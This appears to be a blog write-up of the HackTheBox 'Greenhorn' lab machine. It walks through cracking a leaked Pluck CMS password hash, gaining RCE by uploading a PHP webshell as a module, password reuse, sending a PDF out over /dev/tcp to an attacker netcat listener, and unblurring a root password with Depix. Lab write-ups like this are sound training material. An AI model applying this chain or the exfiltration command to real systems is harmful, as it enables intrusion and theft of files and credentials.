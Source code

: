 ```yaml
---
layout: post
title: "Greenhorn"
date: 2024-12-28
author: d0s3nt
categories: [Writeup, HackTheBox, Web, Linux]
tags: [HTB, Writeup, Security, web, linux, PHP, CMS]
pin: true
math: true
mermaid: true
image:
  path: /assets/Hack-The-Box-logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```



starting with nmap 

```bash
sudo  nmap -sC -sV -p- -oN greenHorn -T4 10.10.11.25
```
 ![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722002947.png)

so we got 2 websites , one hosted on the port 80 and the other on the port 3000
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722003219.png)



on the port 3000 , we got gitea , with a public repos contains the source code of `pluck cms`
on the other port we found the `pluck cms`

![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722003527.png)

from the fisrt look , I assume that this websites is the same one as the one in the `gitea repo`

so let's take look at the source code , quick review of the code 

this file got my attention http://greenhorn.htb:3000/GreenAdmin/GreenHorn/src/branch/main/login.php 

```php
else {

require_once 'data/settings/pass.php';

  

//Check if we're already logged in. First, get the token.

require_once 'data/settings/token.php';
```

let's check the `data/settings/pass.php`
```php
<?php

$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';

?>
```
this files returns a hash to the  `login.php` file 

then the cms generate a hash based on the user input and stored it in  `$pass`
```php
  

//If password has been sent, and the bogus input is empty, MD5-encrypt password.

if (isset($_POST['submit']) && empty($_POST['bogus'])) {

$pass = hash('sha512', $cont1);
```
after that he compares the `$ww (hash returned from pass.php)` with the `$pass`
to confirm that the password is correct
```php

//If password is correct, save session-cookie.

if (($pass == $ww) && (!isset($login_error))) {

$_SESSION[$token] = 'pluck_loggedin';
```

if we crack the hash on the pass.`php` we will get access to the `cms`  , since the  hash is `SHA5` , I will try to crack it using [crackstation](https://crackstation.net/)

![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722011750.png)
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722012056.png)

the CMS is on version `4.7.18`` , I quick google search lead me to [this exploit] (https://www.exploit-db.com/exploits/51592)

after reading the script .
the scenario is the following :
```
user with admin privilege can upload a module (module is just zip with php files) using http://target/pluck/admin.php?action=installmodule
, then we can run those files , since we control those files we can use them to get rce .
```

first I will create a zip with two files `poc.php,rce.php`
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722012944.png)
```bash
zip rce.zip poc.php rce.php
```
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722013106.png)

![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722013302.png)

http://greenhorn.htb/data/modules/rce/poc.php
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722013344.png)

http://greenhorn.htb/data/modules/rce/rce.php?cmd=id
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722013526.png)

let's get rev shell now
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722014725.png)

![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722014758.png)

we have 3 users on this machines
```bash
cat  /etc/passwd | grep sh$
```
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722014835.png)

I tried to reuse the password of the website , against users and I am `junior` now!!
```bash
su junior
```

there's a pdf on `junior's home`
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722015126.png)

let's transfer it to our machine  to check it 
```bash
# on the target :
		cat 'Using OpenVAS.pdf' > /dev/tcp/10.10.14.234/1337
# on the attacker machine :
		nc -nvlp 1337 > openvas.pdf
```
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722015319.png)

there's a hidden password in this pdf , we need to unblur it!!
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722015603.png)

at this point I was stuck , so I ask for hints from the HTB discord server 
we need tools like https://github.com/spipm/Depix to un-blur the password

but first we need to convert the pdf to png (wasn't lucky with taking screenshots),
using websites like https://pdfcandy.com will be enough 

after generating the image I use  `Depix tool` to generate un-blurred  image
```bash
python3 depix.py -p  ../OpenVas.png  -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o root.png
```

and I got this 
![root.png](/assets/img/posts/GreenHorn/root.png){:normal}

```
sidefromsidetheothersidesidefromsidetheotherside
```
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722020616.png)
